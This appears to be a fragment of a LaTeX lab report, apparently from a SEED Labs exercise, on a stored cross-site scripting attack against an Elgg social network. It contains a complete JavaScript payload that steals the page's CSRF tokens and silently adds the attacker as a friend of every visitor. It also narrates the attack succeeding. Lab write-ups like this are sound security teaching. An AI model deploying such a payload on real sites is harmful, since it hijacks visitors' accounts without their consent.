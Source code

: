 \documentclass[12pt]{article}
\begin{document}
We then place the following in Samy's ``About Me'' in ``Edit HTML'' format:

\begin{verbatim}
<script type="text/javascript">
    window.onload = function () {
        var Ajax=null;
        var ts = elgg.security.token.__elgg_ts; // Time Stamp
        var token= elgg.security.token.__elgg_token; // Security Token
        var myID = 59; // User ID of the attacker (Samy)
        var userID = elgg.session.user.guid; // ID of the visitor

        // If Samy is visiting his own profile, no attack should happen
        if (userID == myID) return;

        var sendurl = `/action/friends/add?friend=${myID}&__elgg_ts=${ts}&__elgg_token=${token}&__elgg_ts=${ts}&__elgg_token=${token}`;

        // Create and send Ajax request to add friend
        Ajax = new XMLHttpRequest();
        // Last boolean value is for asynchronous request making
        Ajax.open("GET", sendurl, true);
        Ajax.setRequestHeader("Host", "www.seed-server.com");
        Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
        Ajax.send();
	}
</script>
\end{verbatim}
After this, when Alice visits Samy's profile, the attack is executed with the following request being sent:
     \begin{figure}[H]
         \centering
         \includegraphics[width=\textwidth]{Images/ss7.png}
         \caption{GET Request sent as a result of the attack}
         \label{fig:ss7}
     \end{figure}
On reload, we can see that, Samy is now Alice's friend.
     \begin{figure}[H]
         \centering
         \includegraphics[width=0.7\textwidth]{Images/ss1.png}
         \caption{Samy gets added as Alice's friend}
         \label{fig:ss1}
     \end{figure}
\end{document}
